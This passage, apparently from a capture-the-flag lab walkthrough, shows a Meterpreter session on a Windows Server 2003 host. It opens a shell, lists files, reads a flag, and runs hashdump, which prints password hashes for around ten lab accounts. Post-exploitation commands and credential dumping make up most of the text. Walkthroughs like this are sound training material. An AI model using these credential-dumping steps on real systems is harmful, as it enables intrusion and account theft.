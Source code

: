 meterpreter > 
</pre>

Once we have a Meterpreter session, we can open a command prompt on the system by running `shell`. Examine files using `dir`:

<pre>
meterpreter > shell
Process 212 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 944B-C748

 Directory of C:\

11/11/2008  03:27 AM                 0 AUTOEXEC.BAT
09/23/2019  02:10 PM                23 bonusflag.txt
11/11/2008  03:27 AM                 0 CONFIG.SYS
06/07/2013  09:00 PM    &lt;DIR&gt;          Documents and Settings
11/11/2008  05:47 AM    &lt;DIR&gt;          firefox
04/15/2019  11:43 AM               426 flag1.txt
11/11/2008  05:21 AM    &lt;DIR&gt;          Inetpub
02/18/2007  01:31 AM            94,720 msizap.exe
01/03/1998  03:37 PM            59,392 nc.exe
10/10/2017  10:02 AM    &lt;DIR&gt;          Program Files
09/20/2019  06:20 PM    &lt;DIR&gt;          temp
10/03/2019  08:29 AM    &lt;DIR&gt;          WINDOWS
11/11/2008  03:28 AM    &lt;DIR&gt;          wmpub
               6 File(s)        154,561 bytes
               7 Dir(s)   4,113,903,616 bytes free

C:\&gt;type flag1.txt
type flag1.txt

The phrase that pays is located in several places throughout this room.  
Each flag gives you instructions for finding the phrase.

You will also need the Hydan steganography tool from the course USB.
Follow the directions in the README file.  Read them carefully.  

Follow the instructions in the flags exactly.  
If you follow the instructions exactly, the memory errors, seg faults, and garbage text will go away.
C:\&gt;
</pre>

Return to the Meterpreter prompt by running `exit`. Dump password hashes using `hashdump` at the `meterpreter&gt;` prompt:

<pre>
C:\&gt;exit
exit
meterpreter &gt; hashdump
admin:1013:1858b18e0a139abd358f4be2befbcf0f:744488a3d6b77a8a76d0cf5d19baa6b2:::
Administrator:500:452495d04f81e4c200b44745424c55eb:29affe6ea3732b9bc83c896c84311863:::
falken:1011:4fbd4cea97c5752caad3b435b51404ee:2049b70ec5b6944aed5fef05bc4b1933:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WILMA:1003:84be91bc0235ae1a23ef11b0f04203ae:2d36d8b39d37e174f350d1f54fa8a93c:::
IWAM_WILMA:1004:4fd3d0eea847cc93d9b3122cfc667c5e:e09dbfeb01becf58d8d83a798e82e79c:::
mike:1010:bb2493b09f6ecfc9aad3b435b51404ee:c0bb120391d5367712cc4c92389bfa21:::
paul:1017:d0a0825c400e051daad3b435b51404ee:6c4585a24a43fa45e2a64e746620d06f:::
peaches:1018:a9ed0f91b3b23974c2265b23734e0dac:d0e23e8494cfc43275d035981551ff11:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:b8697e859faa3aadf1390b559d730e46:::